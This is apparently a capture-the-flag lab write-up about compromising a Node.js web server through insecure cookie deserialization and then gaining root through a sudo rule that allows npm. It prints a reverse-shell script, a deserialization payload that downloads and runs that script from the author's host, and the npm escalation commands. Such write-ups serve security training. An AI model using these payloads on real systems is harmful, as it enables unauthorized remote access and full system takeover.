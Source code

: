 Introduction
In this project, I conducted a security assessment of a target system running a Node.js web application. The goal was to identify vulnerabilities, gain initial access, escalate privileges, and retrieve two key flags: user.txt and root.txt.

Key Findings:
Insecure Deserialization in a Node.js web app leading to Remote Code Execution (RCE).

Misconfigured Sudo Permissions allowing privilege escalation via npm.

Methodology
1. Reconnaissance
I began with port scanning using nmap to identify exposed services:

bash
nmap -Pn -sVC -A -p- TARGET IP
Discovered Services:

22/tcp – SSH (not exploited)

80/tcp – Node.js web server (primary attack surface)

2. Web Application Analysis
The web application had an email submission form. Upon submitting test data, the server returned a base64-encoded cookie containing:

json
{"email":"test@test.com"}
This suggested insecure deserialization in Node.js, a known security risk.

3. Exploitation (Node.js Deserialization → RCE)
Hosted a reverse shell payload (shell.sh) on my server:

bash
#!/bin/bash
bash -i >& /dev/tcp/MY IP/1234 0>&1
Crafted a malicious cookie using Node.js deserialization:

javascript
_$$ND_FUNC$$_function (){ require('child_process').exec('curl http://<MY_IP>/shell.sh | bash'); }()
Sent the payload via cookie manipulation, triggering reverse shell access.

4. Initial Access & User Flag
After stabilizing the shell (python3 -c 'import pty; pty.spawn("/bin/bash")'), I located the user flag:

cat /home/dylan/user.txt
Flag: 0ba48780dee9f5677a4461f588af*****

5. Privilege Escalation (via npm Sudo Misconfiguration)
Running sudo -l revealed:

bash
User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
Using GTFOBins, I executed:

bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u root /usr/bin/npm -C $TF --unsafe-perm i
This granted root access, allowing retrieval of the final flag:

bash
cat /root/root.txt
Flag: 2cd5a9fd3a0024bfa98d01d692******

 Conclusion 
Summary of Exploits:
Insecure Deserialization → Remote Code Execution.
Excessive Sudo Privileges → Privilege Escalation via npm.
Final Notes
This project demonstrated how minor misconfigurations can lead to full system compromise. Proper security hardening could have prevented both initial access and privilege escalation.
